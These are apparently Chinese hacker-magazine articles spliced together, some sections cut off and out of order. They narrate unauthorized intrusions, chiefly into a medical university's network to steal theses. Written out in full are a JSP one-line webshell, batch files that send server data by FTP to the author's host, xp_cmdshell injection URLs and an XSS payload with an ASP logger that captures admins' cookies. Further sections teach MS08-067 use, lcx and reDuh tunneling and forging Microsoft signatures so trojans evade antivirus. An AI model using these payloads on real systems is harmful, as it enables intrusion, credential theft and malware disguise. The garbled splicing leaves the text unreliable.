没办法，人家数据库分离了，对 Web 服务器就只好放在一边了。对于数据库分离的问题，如果是低权限的话就很难搞了，可现在我是 sa 权限。我开始的想法是用命令向数据库服务器写入一个开 3389 的 reg 文件，然后用命令执行加用户开 3389。可是一想到要一句句地 echo 文件到服务器就麻烦，于是在 Pangolin 里用 `netstat -an` 查看了一下端口，发现数据库服务器开了 80 端口，莫非数据库服务器上也有网站？我尝试访问 `211.68.***.222`，出现了安装 Tomcat 后的默认界面，如图 8 所示。


在后面加个 `/news/`，我晕，竟然发现和 Web 服务器上的网站一样，连漏洞都一样（我开始也觉得不可思议，连网站路径都一样！事后猜想这可能是管理员的一个备份网站）！

那现在想想，刚才那个 sa 权限的注入上传的 `jsp.jsp` 文件在这个数据库服务器的网站应该访问得到啊？试着访问一下，晕死，竟然还是显示 404 错误，如图 9。


### 八、向前


刚才阿 D 提示上传成功了，可就是访问不到，而且用网站的任意目录浏览也没这个文件。我开始认为是爆出的那个目录不对或者根本没这个目录，所以访问不到（后来发现不是这样），于是就想怎么办能找到数据库服务器上网站的真实路径。列目录实在是太慢，不知道要找到什么时候，所以不是万不得已不列目录。

那我该怎么找呢？就这个问题请教了下孤水绕城，他告诉我找一个网站里的文件可以用命令 `dir /s /b 盘符\文件名` 搜索，这个命令的意思是说在指定的盘符里列出含有指定文件的绝对路径，这样就可以判断我的路径是不是真正的路径。于是我在 Pangolin 里执行命令 `dir /s /b e:\index2.jsp`，返回结果如图 10 所示。

也就是说这几个路径都有可能是网站路径，那我用 Pangolin 在这几个存在的目录里都上传一句话 `jsp.jsp`，可是结果还是访问不到文件，思想陷入僵局。

我想了想这个问题，还有一种可能就是工具误报了，也许根本就没传上去。我于是想：不管网站的路径是不是刚才那几个，既然工具提示成功了，在那几个目录下就应该有 `jsp.jsp` 文件。

于是我花了点时间直接用阿 D 列目录到那几个路径下找这个文件，可是根本就没发现 `jsp.jsp` 这个文件！现在终于找到原因了，根本就没上传上去！根本不是路径的错误！我当初应该先判断一下是否成功上传就对了，而不应该怀疑是网站路径不对！看来工具不是万能的，那现在只有手工向数据库服务器上写文件了。

```jsp
echo ^<%^ if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %^> > E:\Tomcat 5.0\work\Catalina\localhost\news\jsp.jsp
```

在 Pangolin 里执行 echo 一句话木马到 `E:\Tomcat 5.0\work\Catalina\localhost\news\jsp.jsp`，没有回显，用页面的任意目录浏览，没有发现 `jsp.jsp` 文件，访问也是 404 错误。可是当我执行命令 `dir E:\Tomcat 5.0\` 列目录时出现意外，说系统找不到指定的文件，如图 11 所示。

这就奇怪了，`E:\Tomcat 5.0\` 肯定是存在的啊，难道是我的命令不对？我问了下孤水绕城，他说完我才想起来：在目录 `E:\Tomcat 5.0\` 中，Tomcat 5.0 中间有个空格，这种时候表示一个完整的路径，应该用双引号把 `Tomcat 5.0` 括起来，即 `"Tomcat 5.0"`。接着重新执行 `dir "E:\Tomcat 5.0\"` 命令，成功了，如图 12 所示。

### 九、冲锋

现在明白为什么我 echo 一句话木马的时候不成功了，就因为路径中有个空格，解决办法就是把完整路径用引号引起来。于是重新执行 `echo ^<%^ if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %^> > "E:\Tomcat 5.0\work\Catalina\localhost\news\jsp.jsp"`，依旧没有提示，可是在网站目录中找到了这个 `jsp.jsp` 文件，如图 13 所示，访问成功。

然后上传 JSP 大马，成功拿到数据库服务器的 shell，如图 14 所示。

JSP 的 shell 默认就是系统权限，到现在这个地步，其实开

## 一篇论文引发的入侵

### ——记对当地医科大的渗透检测

还是 SA 权限，不过入侵手法各有巧妙与不同，请各位细细读吧！

记得很久没去高中群里冒泡了，估计好多同学都忘了俺。可是没聊两句，就收到一个很久没联系过的同学发来的信息。看了下，原来是班里的一个 PLMM 发的，于是就聊了起来。聊来聊去就聊到了论文上，她说她现在在写医学论文，而且写得很辛苦，可是俺也没办法帮忙啊，俺又不懂医学的东西。不过俺这人见不得 MM 不开心，所以就找一个在当地医科大上学的朋友，看看他能帮上忙不？可是他说他也不会写，不过他说他们医科大网站服务器上就有论文，好像只能上传不能下载，最后给了我一个 FTP 地址然后就跑没影了。

### 一、战前踩点

- 1. 测试 FTP 服务器

打开 FTP 地址一看，还真有不少的论文，不过复制的时候却出错了，如图 1 所示，应该是管理员大规模地设定权限了，只能写入不能读取。难道这样就能阻挡我拿到论文的目的吗？软的不行只能来硬的了。

- 2. 获取端口开放情况

用 sfind 扫了下该 IP 地址的端口，发现只开了 21 和 80 两个端口。从结果看应该是让防火墙或者 IPSEC 策略给堵住了，如图 2 所示。既然开了 80，那就先从网站开刀了。大学网站的脆弱性我就不多说了，大家有目共睹的。

- 3. 使用 wwwscan 扫描目录

用 wwwscan 扫了一下（把“冰的原点”给的字典也加上了），不过这个工具扫描得也不是很准确，好多存在的目录也扫描不出来，扫了半天也没扫出点能够利用的东西。扫描结果如图 3 所示，基本没有什么用。

- 4. 扫描 SQL 注入点

接下来看看有没有注入点，于是用啊 D 扫描了下网站的注入点，运气不好，没有直接扫到，看来出师不利啊。不过俺还有办法，就是用 Google Hacking。

不过直接用 Google 是不行的，会被 Google 封 IP，这里给大家介绍一个小工具，就是 SimpleGoogle。用它把关于目标网站的 URL 全部扫出来，然后再用 domain 批量扫描注入点的功能把用 SimpleGoogle 扫描出来的注入点全部给分析一遍，这样得到的结果会很全，也不怕被封 IP。你也可以去百度，不过百度收藏的 URL 肯定不如 Google 的多。

SimpleGoogle 扫描结果如图 4 所示，接着我们把保存的 URL 用 Word 整理一下（因为用 SimpleGoogle 保存的 URL 之间都会多出一个回车符，这需要用 Word 替换掉。在 Word 里用替换的功能，把 `^p` 替换成 `β` 就 OK 了，以前“黑手”也讲过，还不会的去百度吧），最后保存为 TXT 文档。

- 5. 获取注入点

用 domain 导入刚才整理好的文本文档开始扫描，结果相当可观，如图 5 所示。皇天不负有心人，最后终于让我找到一个 SA 权限的注入点，呵呵，既然是 SA 权限，应该可以搞定了。

### 二、实战提权和渗透

- 1. NBSI 执行命令失败

SA 权限的注入点我一般会用 NBSI 来执行命令，不过结果却很令人郁闷，执行命令没有回显！在 URL 后面加个单引号，返回结果如图 6 所示，没有看到预想的结果，看来被屏蔽错误回显了。

在浏览器里浏览 `http://xxx.edu.cn/index/webinfo/browser.asp?doc_id=1246 and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_cmdshell')` 时返回了正常页面，说明存在 xp_cmdshell 这个危险的扩展存储。

还不错，看来还不是特别变态。

本来想加个用户然后登录 3389 的，可是一想这应该不可能实现，因为我们只扫描到了两个端口，3389 肯定不会让我们连接的。如果想连接 3389 的话，就只能用端口映射这个办法了。

那要怎么办呢？也许有的朋友要说了，直接把木马传到网站上运行一下不就行了吗？可是现在我们还不知道该网站是不是 Web 和数据库分离的，如果这样的话，我们只能上传到数据库服务器上，对 Web 服务器是没有影响的。还有最关键的一点，就是俺没有免杀的木马，以前没有，现在还是没有（大牛们不要鄙视小菜们啊，要有共享的精神，送小弟一只免杀木马啊）。

对于这种环境的网站，我一般会先分析网站是不是把数据库分离了，然后再向网站根目录上传 ASP 木马。其实这两个工作可以放到一起干，就是直接用啊 D 列目录。为啥要用啊 D 列目录呢？因为在网站屏蔽了错误提示时，自然是返回不了错误信息的，而 NBSI、DOMAIN 这时就没辙了，而啊 D 会利用折半分析的方法来猜解目录。原理不多说了，大家可以用“WSockExpert”这个经典工具抓包分析，如果你要想成为一个注入高手，分析牛人的东西是一个必须的过程。如图 7，是我抓到的啊 D 猜解目录的语句，相当的经典。

- 2. SA 权限查找网站根目录新方法

虽然能用折半分析法猜解目录，但速度慢得可怜，我检测的时候啊 D 就被卡死过好几次。最后终于在 E 盘发现了点有用的东西，貌似这个盘存放着 Web 目录，可是接下来我就发现困难重重了，因为宿舍网速超慢的问题（五个人占用一个网线），这个盘底下的东西一直没有猜解完全就卡住不动了。

那我们如何来找到网站的根目录呢？小菜我想了很久，最后终于想出一个弱智但是很好用的方法，就是用 DOS 的 DIR 命令。不废话了，把我写好的批处理代码给大家：

```bat
@echo off
for %%i in (c d e f g h) do (
fsutil fsinfo drivetype %%i:|findstr "固定驱动器">nul && dir /s /b %%i:\index.asp>>result.txt
)
echo open www.neverfox.com >ftp.txt
echo 1>>ftp.txt
echo 1>>ftp.txt
echo binary>>ftp.txt
echo put result.txt >>ftp.txt
echo bye >>ftp.txt
ftp -s:ftp.txt
del ftp.txt
del result.txt
```

这个批处理的功能就是依次列举相关盘符（c、d、e、f、g、h）下的所有 `index.asp` 文件，然后把 `index.asp` 的完整路径保存在 `result.txt` 这个文件里，再用 FTP 的方式把 `result.txt` 传到我自己网站的根目录下。这样我们访问自己网站上的 `result.txt` 就能知道目标网站的根目录信息了。

其实我们还有一种更霸道的方法，就是将 DIR 出来包含 `index.asp` 的文件夹，在其目录下面全部插入一句话木马，这样我们只要用一句话客户端访问 `index.asp` 同目录下的一句话后门文件，就能成功拿到网站的 WebShell。这样做很简单，不过这种“盲插”的办法太过霸道，可能会生成很多的垃圾文件，不推荐大家使用。

这两个批处理在本机测试通过，偶高兴啊，赶紧把这个批处理用啊 D 的上传功能上传上去，这里我传到了 `c:\windows\temp\1.bat`，如图 8 所示。

然后再在浏览器里访问 `http://www.target/browse.asp?doc_id=1244,exec master..xp_cmdshell 'start%20C:\windows\temp\1.bat'--`，经过漫长的等待之后，访问 `http://www.neverfox.com/result.txt` 还是没有结果，而且到最后还出现了一个如图 6 的错误界面。

当时心就灰了，难道这个办法行不通吗？想了想，应该是批处理的问题，这个批处理太耗费资源了（需要遍历那么多盘符），弄不好服务器还有可能被搞挂。用啊 D 列目录也不是办法啊，那就换种方法，把上面的批处理换成下面的试试：

```bat
dir /s /b c:\index.asp > result.txt

echo open www.neverfox.com >ftp.txt
echo 1>>ftp.txt
echo 1>>ftp.txt
echo binary>>ftp.txt
echo put result.txt >>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt

del ftp.txt
del result.txt
```

**注：** 此批处理列举 C 盘下的所有 `index.asp` 文件，也可以换成 `index.html` 等等，视具体情况而定。

上传上去之后再次执行 `http://www.target/browse.asp?doc_id=1244,exec master..xp_cmdshell 'start%20C:\windows\temp\1.bat'--`，这样就可以遍历 C 盘了。

结果访问我网站上的 `result.txt` 文件，是空白的。然后把 `c:\index.asp` 改成 `d:\index.asp`，再次上传，再次执行……N 次之后，终于在 E 盘上发现了突破，如图 9 所示，网站目录原来在这里，害我费了这么老大劲，不过还是很有成就感的。

- 3. 获取 WebShell

既然得到网站根目录了，三下两下就依次把一句话和大马传了上去，如图 10 所示。一番查找之后终于找到了我想要的论文，也成功地下载了几篇；想着能为 MM 做点事也高兴得不行。

不过 WebShell 一个一个地下载太麻烦了，如果能一次全下载下来就更完美了（各位莫笑，本人异常地懒）。想法有了，还需要实际行动，这时候我想到了远程它的 3389，不过这里又遇到了阻碍。不知大家有没有看图 2，没有，只开放了 21 和 80 端口，3389 就是开了我们也没办法访问。对于这个情况只有一种办法，就是最常用的端口转发了。

- 4. 使用 lcx 端口转发程序映射 3389 端口

在 WebShell 上执行 `netstat -an`，开的端口很多，不过没有发现 3389 这个端口。执行 `net start` 也没找到 Terminal Services 这个服务，看来还得先开 3389 再说了。

由于权限的问题，WebShell 是没办法执行命令的，所以这里我们需要一个工具 SqlRootkit。因为我们刚才的那个注入点是 SA 权限的，而且 XP_CMDSHELL 这个扩展存储是存在的，通过注入点很快就找到了 `conn.asp` 这个数据库连接文件，从中找到了 `getDBLink` 这个函数：

```vb
function getDBLink()
    strDBLink="Provider=SQLOLEDB.1;Initial Catalog=medicine;Data Source=(local);User Id=sa;PASSWORD=9853**;"
    strDBLink="Provider=SQLOLEDB.1;Initial Catalog=medicine;Data Source=(local);User Id=xvvjs;PASSWORD=snow2he"
    strDBLink="Provider=SQLOLEDB.1;Initial Catalog=medicine;Data Source=***.***.179.1;User Id=sa;PASSWORD=770922"
```

明眼人一看就晓得了，果然是 SA 这个账户建立的连接，同时也看到了下面两个数据库账户，而且一个数据库连接字符串的 IP 貌似就是网关的 IP，看来这次收获不小，一会儿再看它。

把 SqlRootkit 传上去，填上 SA 和 SA 的密码很顺利地登录了进去，我们先来开 3389。把 WIN2003 下开 3389 的注册表文件传上去，然后用 XP_CMDSHELL 这个扩展存储执行 `reg import E:\www\medicine0604\sec_college\3389.reg`，结果成功执行命令。

再次执行 `netstat -an`，发现 3390 这个端口被打开了（开 3389 的注册表默认的端口是 3389，这里我给改成 3390 了），说明成功地开启了 3389。

接下来就该端口映射了，先用 LCX 在本地监听 110 端口，命令为 `lcx --listen 110 1987`，如图 11 所示，然后把 yizhigu 大哥给我的免杀 LCX 传上去，还好没被卡巴杀掉（服务器用的是卡巴 6.0）。然后继续用 SqlRootkit 执行 `E:\www\medicine0604\sec_college\lcx.exe --slave ***.***.186.149 110 127.0.0.1 3390`，其中 `***.***.186.149` 是我自己的 IP 地址，过一会儿就看到本地 LCX 监听到了目标服务器传送过来的连接请求。OK，反弹成功！

- 5. 成功进入远程终端桌面

接下来就简单了，用远程终端连接 `127.0.0.1:1987`，如图 12 所示。

- 6. 打包并下载论文

哈，进入主机后，所有文件都在掌握中了，赶紧找到论文所在的目录进行打包下载吧！如图 13 所示。现在可以给高中时的 MM 同学交差了，MM 自然是开心得不行，至少有论文可以拿来参考了，对俺也另眼相看（我可没说是入侵拿到的，只说是跟好朋友找的 o(∩_∩)o~）。

### 三、同网段渗透

- 1. 上传入侵渗透工具包

MM 的忙算是帮完了，不过俺心里还有点空缺没给补上，就是 ***.**.179.1 这个 IP 的 SA 密码一直勾引着我。俗话说：“不想当将军的士兵不是好士兵”，那么“没有渗透网络欲望的黑客就不是好黑客”。接下来的一段时间，我就对医科大学的整个网段发起了挑战。

首先把内网渗透需要的工具全都用 FTP 上传上去（对于文件的上传，我一般会用 FTP，先在本地架设 FTP 服务器，然后在登录的 3389 服务器上访问我的 FTP 就可以实现数据通信了），如图 14，是我常用的入侵渗透工具包，我会打包提供给大家，大家可以到 www.antian365.com 或者 www.neverfox.com 去下载。

赶忙火急火燎地用得到的密码连接 ***.**.179.1 的数据库，可是没成功。看了下如图 15 中 sfind 扫描的结果，也没找到这台机子，看来没戏了。

- 2. 扫描内网开放 445 端口计算机

通过前面的操作，我想到对同网段渗透，先来理清思路，如何才能在最短的时间内获得最大的权限，得到最多的服务器数量，这关系到我们渗透的成功与否。

首先扫描一下同网段存活的主机吧，用 sfind 这个小工具就能完成，我们直接用它来扫描 1—255 这个 IP 段的 445 端口，如图 15 所示。

> 注：这个工作必须得在得到的肉鸡上进行，原因是它们在同一个路由下，所以我们才能扫到 445 端口，别的 IP 段的主机扫描的话，是不能扫出来的。

- 3. 使用 hscan 扫描内网弱口令

把扫描结果整理一下，然后导入到 hscan 里，接着就是一通狂扫。这里提醒小菜们注意下，在扫描之前要做好充足的准备，最重要的就是要有一个好的字典，再有就是看你“社工”的水平了，如何能够掌握到同网段服务器集群的更多密码信息是个值得研究的话题。

可以浏览下你拿到权限的数据库存有账户和密码的表段，然后一起导出来；也可以用 findpass 找出系统缓存中的密码，或者用 pwdump 抓出密码，然后用 Ophcrack 加彩虹表暴力破解出密码来。把这些信息一起来添加到 HSCAN 的字典里，作为一个临时的字典。方法有很多，大家需要自己去总结。

运气还不错，扫到了几个 SA 弱口令，还有一个 IPC$ 的弱口令（这么古老的漏洞都有，估计是 WIN2000 的系统）及几个无关紧要的 FTP 匿名登录账号。扫描结果如图 16 所示，其中有一台 ***.***.48.28 的机子，SA 的口令也是 123456，不知道为啥用 HSCAN 没扫到。

- 4. 使用 SQLTOOLS 提升权限

既然有 SA 的弱口令了，那咱也别客气，用 SQLTOOL 连上去。

> “不会自动给你加引号的”。看来工具不是万能的，学习，要知其然，还要知其所以然才能进步。

最后发现自己表达能力真的很差，如果有什么不懂的地方，欢迎到“黑手”论坛找我，我的新 ID 是 dreaming，旧的 ID 丢了！

> 【作者用到的工具：JSP 一句话木马客户端.rar 和 job.war 已收录在本期光盘】

> 编辑点评：一个小小的空格让作者烦恼了很长时间啊，大家也要记住，在再遇到这种情况该如何办。不过作者最后得到数据库站的权限后利用发散思维，再相同配置再获得 Web 服务器权限，这个思路值得赞赏的。

### 十、总结

这样，由于管理员的疏忽，使我拿到了两台服务器的最高权限。都已经是最高权限了，3389 我就不开了，避免管理员发现。这只是一次安全检测，删掉自己建的用户，全身而退。

之所以上传不成功，就是在本例网站路径中有一个空格，需要用引号把路径引起来才行。所以按照流水绕城的话说就是：“工具是不会自动给你加引号的”。看来工具不是万能的，学习，要知其然，还要知其所以然才能进步。

图17

图18

发现都是 WIN2K 的操作系统。把“开 win2000 终端.exe”这个工具改名成 3389.exe 上传上去，直接用 SQLTOOL 执行“3389.exe 0”，然后服务配置开启之后 3389 就能登录了，接着加用户开 3389 就 OK。关于如何开 3389 俺就不赘述了，这样我很轻松地就得到了 ***.***.48.12 和 ***.***.48.28 这两台服务器的终端权限。

**注：** 工具包里的“开2003.reg”是用来开 win2003 服务器的，“开 win2000 终端.exe”则是用来开启 win2000 服务器的。

大家应该记得我还扫到了一个 IPC$ 的主机，那它就交给 recton 解决了，想当初使用它可是横行网吧的哦。用它给服务器开 telnet，然后再“telnet ***.***.48.194”就得到了一个 system 权限的 shell。这里要注意了，首先要用 recton 加个用户，而且这个用户的密码和账号必须和登录的那个研究生院网站的一样，才能绕过 NTLM 验证，如图17所示。

这台服务器果真是 WIN2K 的操作系统，用同样的方法给服务器开了 3389，这台服务器也让我很轻松地拿下了。

- 5、使用 MS08067 漏洞利用工具大发神威

已经得到了 4 台服务器的终端权限了，不过俺还不死心，不是最近的 MS08067 很火吗？这样的学校集群服务器，补丁打得肯定不那么勤快，马上用 MS08067 的利用工具扫描开了 445 端口的服务器。

结果大部分的服务器都打了补丁，不过还是找到一台没打补丁的服务器，让俺给溢出成功了（由于种种原因，图没有保存下来，请读者们包涵）。这次的是台 WIN2003 服务器，用“开2003.reg”给它开 3389，然后成功登录。

记得当时登录这台肉鸡的时候俺很搞笑，发现管理员大叔还在装系统，我进去的时候系统差不多快装完了。剩最后一部分了（当时没有截图，大家勿怪），当时心想真是侥幸啊，如果管理员大叔把服务器装完，补丁也打好，俺就没那么幸运了，嘿嘿。加了个隐藏账户，然后帮管理员把补丁也给打上了。

现在已经搞到五台肉鸡了，接着看到服务器上都没装防火墙，杀毒软件还是 6.0 版本的卡巴斯基，一冲动就把 cain 传上去了。做好相关设置后就开始嗅主站，可是没嗅一会，主站没挂，研究生院的服务器却给挂了，我晕！当时心里这个苦怕啊，脚印俺还没擦呢，警察叔叔还不请我去喝茶啊。

恍惚了半天，等到晚上时候，研究生院的服务器终于又可以访问了。赶紧访问了下 webshell，还好都还在，赶紧登录肉鸡把 cain 给停了，大家以后不到万不得已千万可别玩嗅探。这样我也就没再继续搞了，渗透就到这里，发个图留个纪念，如图18所示。

## 五、入侵总结

文章没啥技术含量，都是前辈们用烂了的东西，不过能在实战中总结点东西是最重要的。这里我给各大学校的管理员大叔提点建议，就是研究生院固然重要，可是也别都给他们 SA 连接账号啊，这样别院的 BBMM 们该吃醋了。还有就是，服务器的数据库千万别给 SA 设置 123456 类似的弱口令，一定要设置一个超级变态的才好。另外，补丁一定要及时地打！渗透一台服务器不容易，可是保证一台服务器绝对的安全就更不容易了！

## 编辑点评：

这篇文章看完，我有一点感触，就是不同的人真的会有不同的入侵想法，这个可能要靠你的经验积累和平常的知识收集。举几个例子，如果批量扫描注入点，也许其他的人会用 jsky、Matrixay，或者大型一点的 Web Vulnerability Scanner，作者用的却是手工结合几个工具来做，效率慢一点，但也是一个很好的想法。去判断 Web 目录的情况，如果是 sa 权限，可以用 http://hi.baidu.com/myvbscript/blog/item/43114266734c3624aa184c23.html 这个脚本来列目录，如果像本文一样没有回显，再用文中的 bat 来上传，效率也会高一点。

## LCX专栏首语：

最近和安全界的人士聊天，共同的感觉就是“渗透是越来越难做”了，但是“难做”并不一定等于不能做，其实安全的落脚点最终在人性的弱点上，以人为本是渗透灵畅的主轴！这期的安全专栏内容较猛，算是两个小品文了，不过也是有看头的！

## 内网渗透之神奇兵器 reDuh

### 从本文你可以了解 reDuh 的用法

今天 NP 直接就带大家领略下 2008 年的神兵利器 reDuh！何谓 reDuh 呢？按其官方的意思，就是用 JSP、PHP、ASPX 的 Socket，把我们传输的数据进行转发后，变成有效的 HTTP 请求，然后传送到服务器并解码还原后重新定向数据到指定端口的 WEB 隧道程序。

说白了，就和 LCX.exe 等端口转发工具原理类似，只不过用的是 WEB 端实现。那这个和 LCX.exe 有什么区别呢？区别在于：它可以用于不能访问外网 WEB 的机器的敏感端口转发。

比如，一台电脑开了远程终端并对外只开 80 端口，且限制了对外网的访问权限，那么这个时候，reDuh 就可以派上用场了，它可以让我们轻松地绕过这些限制，把目标的终端等敏感端口转发出来。当然，前提是目标机器要支持 JSP、PHP、ASPX 等三种环境中的任意一种。

今天就先来介绍下 JSP 版本的 reDuh，该工具的下载地址是：

`http://code.google.com/p/weapondump/source/browse/?r=3#svn/trunk/`

跳板/reDuh 超强内网跳板。

测试环境如下：

- 本机 IP：192.168.8.100，XP 系统
- 目标机：192.168.8.104，Win2K3 系统

首先，本机需要支持 JAVA，对于普通用户，我们需要安装 `jre-6u11-windows-i586-p-s.exe`。安装过程很简单，基本一路 NEXT 就可以了，如图1、图2、图3所示。

其次，由于我们是基于测试，因此需要让目标机支持 JSP 环境。我采用的是 TOMCAT 和 JDK 加 WIN2K3 整合的 JSP 环境，先安装 JDK，然后再安装 TOMCAT，这里的过程我就不例举了，不然真有浪费版面之嫌，还是说说重要的操作吧。

我们先将 Server 端的 `reDuh.jsp` 放到目标机的 JSP 可执行目录，然后在本机 CMD 下进入 `reDuhClient` 目录，执行 `java reDuhClient 192.168.8.104 8080 /reDuh.jsp` 命令与 server 端进行连接。

8080 为目标 WEB 端口，也就是我们的 TOMCAT 默认服务端口，如图4所示。当提示连接成功后，根据提示，我们用 NC 连接本机的 1010 端口，也就是 reDuhClient 控制台端口，如图5所示。

连接成功后，我们在控制台里输入要创建隧道进行端口转发的命令 `[createTunnel]1234:192.168.8.104:3389`，如图6所示。1234 为本地要监听的端口，3389 为我们要转发的目标终端端口。当命令执行成功后，我们连接本机的 1234 端口，即可通过 TOMCAT 进行转发。

TOMCAT 的 8080 端口将数据转发到目标机的 3389 端口，实现通过 WEB 转发端口的目的。

命令执行后的效果如图7所示，当提示成功绑定本地的 1234 端口后，我们就可以用 MSTSC 连接本地的 1234 端口。若成功，就如图8所示，连接上目标终端。

至于 ASPX 和 PHP 的操作，也是大同小异，但是由于环境的问题，我测试均发生错误，并就相关问题联系作者了。

> **编辑点评：** NP 写得简单了点，相信大家还是看得明白的，要想以后用熟这个工具，肯定要在虚拟机和本机测试一下了。

## 幸运的跨站

■lcx

这期的“高手专栏”本来是打算要写内网信息收集之二的，但是由于过年期间人变得极懒，对于整理总结性的文章有点抵触，因为那样的文章要收集很多的工具、测试很多的数据、抓很多的图……比较累一点，所以就暂且放下，我们这期来写一个小品文吧，反正跨站也是我们专栏的题目之一。

我在过年期间帮朋友搞了一个站，虽然没有拿到 webshell，但是却利用跨站得到了该站管理员的邮箱密码。由于该站比较敏感，所以我就不抓图了，省得泄露机密，呵呵。至于文章要用到的图，我会在本机架设相同的环境演示给大家。

该站是 linux+apache+php+mysql 架构，在前台看到的页面全是 body.php?inner=xx 这样的形式。经测试，xx 就是当前目录下的 xx.php，如果提交不存在的 xx，会暴露出该站路径。

我一开始以为有戏，可以调用本机或远程的文件，于是把 URL 改为 body.php?inner=../../../../etc/shadow，或 mainbody.php?inner=../../../../index 这样的情形来测试，以为可以得到什么敏感数据，但是对于 web 目录外的文件它没有办法调用。而对于 web 目录内的文件，它也只是利用 body.php 来读出该文件的 html 源代码。

后来我又试了远程包含，放一个 door.php 在我的站上，访问 body.php?inner=http://www.haiyangtop.net/door，它会自动加上 php 后缀，成为 body.php?inner=http://www.haiyangtop.net/door.php，但同样也是无法成功。

后来研究了一下，它是自己写的一个 include 函数来读取页面，并不是传统的 php 函数的包含，所以这个思路只能放弃。如果要扫该站的后台，立马会出现如图1所示的界面。

关于这种情况也是可以用工具来扫后台的，我用的扫描工具 URLScanner 放在了 http://hididi.net/，大家可以去下载。不过只要扫到 1 分钟以上，立马封你的 IP！

我又收集了该页面的联系人资料、电话号码什么的，利用 BrutusA2.exe 来暴破它的 FTP 密码，不过还是同样的情况，该 FTP 禁止暴力爆解。我想找到该站的源码，然后下载回来后进行研究。在 Google 搜索了一下，全是搜索到了该站上，没有找到源码。

剩下的就是虚拟旁注了，不过看了同一服务器上的其它几个站，全是静态页面。后来想，就算是搞下了旁注站，我对 linux 提权也是不太会，所以放弃了。

看来似乎是没有办法了，我就在该站上翻呀翻呀，竟然除了 body.php 这个文件之外，找到了一个留言本。这个留言本我在 Google 上找到了源码，在本机架设成功后如图2所示，它的留言本名字是 C.P.Gb v0.89，可以在台湾的蓝色小镇上下载这套源码。

我一开始想通过读这套源码找到一些漏洞，但经过分析，直接获得 shell 的可能性不大。这时注意到了，看到 sign.php 文件中的一段源码：

```php
<?php
if($_GET['cookie']=='yes')
{
    $user_name=$_COOKIE['user_name'];
    $user_passwd=$_COOKIE['user_passwd'];
}else{
    $user_name=$_POST['user_name'];
```

```php
$user_passwd=$_POST['user_passwd'];
}
?>
```

它的后台管理是通过 cookie 来控制的，但是在这里我们没有办法 cookie 欺骗，因为它的 cookie 是用后台用户名和密码来做 cookie 值的。同样的，它的后台用户名和密码也是写死在 sign.php 文件中，默认如下：

```php
$sign_name='cooltey';
$sign_passwd='123';
```

我试了下默认的后台密码，还是进不去该留言本。但是你注意到了吗？首页留言上写着 html 语法开启，也就是说，我们可以写任意 js 语句到该留言本页面上！

我们可以写一段 js 来获取当前用户的 cookie，只要管理员登录了该留言本，我们就可以抓到该留言本管理员的用户名和密码。我留了一条言，骂了管理员几句，中间夹杂了一条 js 语句：

```html
<script>var img = new Image();img.src='http://www.heiyangtop.net/UpLoads/1.asp?var='+encodeURI(document.cookie);</script>
```

**注意：这条语句你要换成一行来写入，不然在该留言本提交留言后会自动给你加上回车、换行什么的，这条语句就失效了。1.asp 的内容如下：**

```asp
<%
var = Request("var")
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Set fso = Server.CreateObject("Scripting.FileSystemObject")
path = server.mappath("cookie.txt")
set file = fso.opentextfile(path, ForAppending, TRUE)
file.write(var) & "|"
file.close
set file = nothing
set fso = nothing
%>
```

写完后我们就可以等待了，现在只要管理员登录留言本后台删这条留言的话，就会自动把 cookie 发送给我们。也许可能是我不会骂人，所以管理员一直没有删这条留言，后来我又重新写了条留言，让大家去看一个 sex 站的广告。这条语句是过年前留的，过完年后，我去查看接收到的 cookie 值，页面内容如图3所示。

管理员果然登录了后台，我们也抓到了其 cookie 值，cookie 值也包含了该留言本的用户名和密码。我又用该密码试了其 FTP，无效；试了下管理员的 blog，可以登录，不过也没有什么好利用的地方。

看了半天，该网站后台一直找不到，郁闷……接着试了下该站的联系邮箱，同样可以进入。这个邮箱也是申请域名时的邮箱，不过他的域名是通过代理申请的，要不然我们可以直接取得该域名的管理密码。总之，最后收获也就这么多，我也不想继续再搞了。

## 打造属于自己的数字签名

### 从本文你可以学习到：

- 1. 快速添加数字签名
- 2. 自定义的数字签名

自从“云计算”这个概念被提出后，很多杀毒软件也纷纷抛出了“云安全”的概念。其实笔者在使用了多款杀毒软件以后，发现杀毒软件对病毒的防御，主要还是基于特征码和主动防御两个方面。至于“云安全”，则是在病毒安装以后，才能发挥出其在进程检测方面的某些优势。今天我们就来看看通过数字签名，对木马服务端程序来进行伪装和免杀。

### 一、快速添加数字签名

如果你注意观察的话，就会发现一个现象，那就是现在很多木马的 DLL 文件，都会伪装成一个 Windows 系统的模块文件，这样至少可以轻易地躲过冰刃和 SREng 等安全工具的检测。但是，很多人却忽略了一个非常关键的问题，那就是服务端程序文件本身并没有加入伪装的数字签名。

所以为了更好地迷惑用户，我们需要在生成的服务端程序的文件上，印上大名鼎鼎的微软公司的数字签名。运行“伪造数字签名添加器”这款工具，点击“选择”按钮来选择刚刚生成的 EXE 文件，如图1。

接着点击“添加”按钮，就可以在原文件的属性中增加一个署名为“Microsoft Windows”数字签名的标签，如图2。

### 二、自定义的数字签名

- 1. 了解数字签名

上面介绍的那个程序虽然简单，但是只能伪装出微软公司的数字签名，现在我们就来想办法，伪装出属于自己的数字签名信息。我们首先选择一个带有数字签名的文件，我选择的是金山公司 WPS 文本编辑程序。

选择该程序文件后点击右键菜单中的“属性”命令，在弹出的属性窗口选择“数字签名”标签。从数字签名列表中我们可以了解到，**数字签名通常包括“签名人姓名”“电子邮件地址”和“时间戳”**三个部分，这样我们也就了解到了数字签名的基本构成。

- 2、伪造数字签名

现在我们就使用“专业数字签名添加工具”，来进行程序文件数字签名的伪造操作。首先运行系统中的命令提示符功能，接着利用 CD 命令切换到“专业数字签名添加工具”所在的目录，然后打开记事本程序，输入代码：

```text
makecert /sv "hack.PVK" /n "CN=黑客手册,E=nohack@21cn.com,O=超捷" hack.cer
```

最后将这段命令复制到命令提示符窗口，回车后程序会要求用户输入一个密钥文件的密码，如图3。

接着程序生成一个名为 hack.PVK 的密钥文件，以及一个名为 hack.cer 的数字证书文件。其中“黑客手册”和“nohack@21cn.com”等信息，就是前面提到的数字签名中的“签名人姓名”和“电子邮件地址”等。

- 3、添加数字签名

